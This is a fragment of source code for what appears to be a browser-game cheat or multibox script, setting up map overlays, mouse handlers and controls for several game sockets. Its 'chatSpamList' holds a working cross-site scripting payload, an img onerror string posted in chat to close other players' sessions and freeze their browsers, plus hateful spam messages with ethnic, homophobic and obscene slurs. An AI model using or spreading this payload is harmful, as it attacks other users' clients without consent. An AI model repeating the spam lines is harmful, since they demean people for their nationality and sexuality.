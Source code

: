         this.mousePs = { x: 0, y: 0 };
        this.worldPos = { x: 0, y: 0 };
        document.addEventListener('mousemove', this.onMouseMove.bind(this));
        this.deleteBuildingSet = new Set();
        this.deleteTrigger = 0;
        this.sellUid = null;
        this.deleteBuildingConfirmSet = new Set();
        this.deleteconfirm = new Map();
        this.deleteconfirmTrigger = 0;
        this.sellconfirmUid = null;
        this.uthObj = { "Door": 1, "SlowTrap": 2, "ArrowTower": 3, "CannonTower": 4, "MeleeTower": 5, "BombTower": 6, "MagicTower": 7, "GoldMine": 8, "Harvester": 9, "GoldStash": 10 };
        this.uthEntities = new Map();
        this.yawBuildings = new Map();
        this.borders = [new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics()];
        this.colors = [0xFFFFFF, 0xFF0000, 0xFFFF00, 0x00FF00, 0x0000FF];
        this.sizes = [48, 864, 1680, 2544, 5040];
        this.borders.forEach((item, index) => {
            item.lineStyle(3, this.colors[index]);
            item.drawRect(-this.sizes[index], -this.sizes[index], 2 * this.sizes[index], 2 * this.sizes[index]);
            game.world.renderer.entities.node.addChild(item);
            item.position = { x: -2400000, y: -2400000 };
        });
        this.borders2 = [new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics(), new PIXI.Graphics()];
        this.borders2.forEach((item, index) => {
            item.lineStyle(3, this.colors[index]);
            item.drawRect(-this.sizes[index], -this.sizes[index], 2 * this.sizes[index], 2 * this.sizes[index]);
            game.world.renderer.entities.node.addChild(item);
            item.position = { x: -2400000, y: -2400000 };
        });
        this.circle = new PIXI.Graphics();
        this.circle.beginFill(0xffffff);
        this.circle.drawCircle(0, 0, 1313);
        this.circle.endFill();
        this.circle.alpha = 0.1;
        game.world.renderer.entities.node.addChild(this.circle);
        this.circle.position = { x: -2400000, y: -2400000 };
        this.reverseMouseMove = false;
        document.addEventListener("mousedown", (e) => (e.button == 2 && (handler.reverseMouseMove = true)));
        document.addEventListener("mouseup", (e) => (e.button == 2 && (handler.reverseMouseMove = false)));
        this.spearmaxtier = $("spearmaxtier").value;
        $("hud-toolbar-item")[0].addEventListener("click", () => sockets.forEach(e => e.equip("Pickaxe", e.inventory.Pickaxe.tier)));
        this.minimap = document.getElementById("hud-map");
        this.playerFindingList = new Set();
        this.baseFindingList = new Map();
        this.lastEntityTime = 0;
        this.audio = new Audio();
        this.audio.src = "https://cdn.discordapp.com/attachments/776401978414727179/1226652360680669225/Rick_Roll_Different_link__no_ads.mp3?ex=66258c08&is=66131708&hm=0a1e36c1110aac2b3692f9264026617133959d08f4d46e1a5958ee9b6cf7e734&";
        this.chatSpamList = {
            "crashspam": '.......................................................................................................................................<img src onerror="game.network.socket.send([]);client&&client.closeSession(client.connectedToId);[...Array(4e9)];"',
            "tctctctctc": 'TCTCTCTCTC = TERRORIST COMMUNITY TRASH CAN OF THE CUNTS THE CLAN OF TURKISH CHICKEN',
            "kgkgkgkgkg": 'KGKGKGKGKG = KIDNAPPED GAY KINDERGARTEN GALLING KNUCKLEHEAD GASP KNEE-SLAPPER GAWK KFC GRANDMOTHERFUCKER',
        }